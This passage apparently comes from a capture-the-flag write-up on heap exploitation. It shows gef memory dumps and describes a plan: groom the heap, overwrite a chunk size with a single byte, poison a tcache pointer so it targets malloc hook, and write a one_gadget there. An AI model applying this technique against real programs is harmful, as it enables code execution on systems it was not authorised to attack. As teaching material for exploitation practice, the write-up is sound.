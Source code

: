 ```
0x56396b21a810: 0x0 0x0
0x56396b21a820: 0x0 0x0
0x56396b21a830: 0x0 0x0
0x56396b21a840: 0x0 0x0
0x56396b21a850: 0x0 0x101
0x56396b21a860: 0x56396b21a960  0x56396b21a010
0x56396b21a870: 0x0 0x0
0x56396b21a880: 0x0 0x0
0x56396b21a890: 0x0 0x0
0x56396b21a8a0: 0x0 0x0
0x56396b21a8b0: 0x0 0x0
0x56396b21a8c0: 0x0 0x0
0x56396b21a8d0: 0x0 0x0
0x56396b21a8e0: 0x0 0x0
0x56396b21a8f0: 0x0 0x0
0x56396b21a900: 0x0 0x0
0x56396b21a910: 0x0 0x0
0x56396b21a920: 0x0 0x0
0x56396b21a930: 0x0 0x0
0x56396b21a940: 0x0 0x0
```

Essentially what our plan is is this. First groom the heap by mallocing / freeing chunks that way we can allocate a chunk before an already allocated chunk. Proceeding we will allocate a chunk before an already existing chunk, and overflow the size with the byte `0x81`, to set the size equl to `0x181`. Thing is with this witht he two chunk sizes we can allocate, the size value is either `0x101` for the `0xf8` chunks, or `0x181` for the `0x178` chunks (there is an extra `0x8` bytes for the heap header):

```
gef➤  x/64g 0x555555559250
0x555555559250: 0x0 0x101
0x555555559260: 0x3832373533393531  0x0
0x555555559270: 0x0 0x0
0x555555559280: 0x0 0x0
0x555555559290: 0x0 0x0
0x5555555592a0: 0x0 0x0
0x5555555592b0: 0x0 0x0
0x5555555592c0: 0x0 0x0
0x5555555592d0: 0x0 0x0
0x5555555592e0: 0x0 0x0
0x5555555592f0: 0x0 0x0
0x555555559300: 0x0 0x0
0x555555559310: 0x0 0x0
0x555555559320: 0x0 0x0
0x555555559330: 0x0 0x0
0x555555559340: 0x0 0x0
0x555555559350: 0x0 0x181
0x555555559360: 0x3832313539333537  0x0
```

Following that we will free the chunk with the overwritten size value `0x181`. Then we will allocate a `0x178` byte chunk which will give us this chunk that we just overflowed. This will allow us to write to this smaller chunk like it is a larger chunk, and overflow a significant portion of the next chunk. Also as part of the heap grooming we would ensure that the next chunk is one stored in the tcache mechanism and has that pointer to the next item in the linked list. We simply overwrite the first pointer (the one to the next object in the linked list) with that of the libc address for malloc hook. Then it's just a matter of allocating chunks untill we get malloc to return a pointer to the malloc hook. Then we can just write a onegadget (https://github.com/david942j/one_gadget) to it, which we can find like this (for which one to use, you can either check to see what conditions are met when the gadget executes or just through trial and error):
